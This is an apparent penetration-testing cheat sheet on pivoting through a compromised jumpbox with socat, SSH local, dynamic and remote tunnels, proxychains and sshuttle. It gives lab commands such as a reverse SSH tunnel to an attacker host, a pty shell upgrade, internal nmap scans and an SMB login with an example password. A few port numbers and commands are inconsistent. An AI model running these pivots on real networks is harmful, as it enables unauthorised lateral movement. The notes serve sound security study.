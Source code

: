 Port Forwarding = Forwarding all traffic sent to that port to another destination (i.e. another port on another machine that isn't reachable from the attacker machine).

# Using Socat
Note: Simple port forwards like these are easy to detect with network monitoring tools. 

Socat usually isn't installed on victim machines but it's possible to download and run a statically linked binary version instead.

Socat binaries: https://github.com/3ndG4me/socat/releases

Once socat is installed on the victim machine (i.e. the jumpbox between the target and attacker):
```bash
socat -ddd TCP-LISTEN:$(LPORT_OF_JUMPBOX),fork TCP:$(IP_OF_TARGET):$(RPORT_OF_TARGET)
```
## Example
There are 3 machines.
* Attacker machine can reach "jumpbox" but not "postgresql".
* Jumpbox machine that has been compromised by attacker. Can reach attacker AND postgresql. IP=192.168.50.63.
* Postgresql machine. Port 5432 is open but only accesible to Jumpbox. IP=10.4.50.215.

Attacking machine wants to access port 5432 on a postgresql server, but that server is only reachable through the jumpbox machine in between them, thus a port forward can be set up on the jumpbox for all traffic going through (for example) port 2345 to forward to port 5432 of the postgresql server:
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
Now the attacker machine can access postgresql through the jumpbox machine on port 2345:
```bash
psql -h 192.168.50.63 -p 2345 -U postgres
```
# SSH Tunelling/Port Forwarding
Most SSH tunnelling requires a tty shell, if it's not - then do this:
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
To connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.
## Local Port Forwarding
Forwards one port to another port of another machine.
```bash
ssh -N -L 0.0.0.0:$(LPORT_OF_LISTENER):$(IP_OF_TARGET):$(RPORT_OF_TARGET) $(SSH_USER)@$(IP_OF_JUMPBOX)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make smb machine port 445 reachable via 4455:
```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```
Attacker machine can now access smb machine through confluence machine on port 4455:
```bash
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```
## Dynamic Local Port Forwarding
Forwards traffic received on one port to access everything visible on another machine.

Run on the jumpbox:
```bash
ssh -N -D 0.0.0.0:9999 $(SSH_USER)@$(IP_OF_TARGET)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 $(JUMPBOX_IP) 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make all machines "database" can see reachable via 9999:
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
Edit the proxychains config on attacker machine:
```bash
sudo echo "socks5 192.168.50.63 9999" >> /etc/proxychains4.conf
```
Run commands to access different ports on the smb machine from attacker machine:
```bash
sudo proxychains4 nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```
## Remote Port Forwarding
SSH remote port forwarding can be used to connect back to an attacker-controlled SSH server and bind the listening port there. Think of it like a reverse shell, but for port forwarding.
On attacker machine:
```bash
sudo systemctl start ssh
```
On jumpbox machine:
```bash
ssh -N -R 127.0.0.1:2345:$(TARGET_IP):$(TARGET_PORT) kali@$(ATTACKER_IP)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine. IP=192.168.118.4
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on confluence to make port 5432 reachable via localhost port 2345:
```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
On the attacker machine:
```bash
psql -h 127.0.0.1 -p 2345 -U postgres
```
## Dynamic Remote Port Forwarding
Note: Only works on OpenSSH Client v7.6+. So the remote machines SSH version matters.

Remote dynamic port forwarding creates a dynamic port forward in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

Run on jumpbox:
```bash
ssh -N -R 9998 kali@$(ATTACKER_IP)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 127.0.0.1 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
# sshuttle
Automates Dynamic Port Forwarding. Requires:
* Root privileges on SSH Client.
* Python3 on SSH Server.

Run on jumpbox machine:
```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$(IP_OF_TARGET):$(RPORT_OF_TARGET)
```
Run on attacker machine:
```bash
sshuttle -r $(SSH_USER)@$(JUMPBOX_IP):2222 $(IP_OF_TARGET_SUBNET)/24 $(IP_OF_TARGET_SUBNET)/24
```
Example:
```bash
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
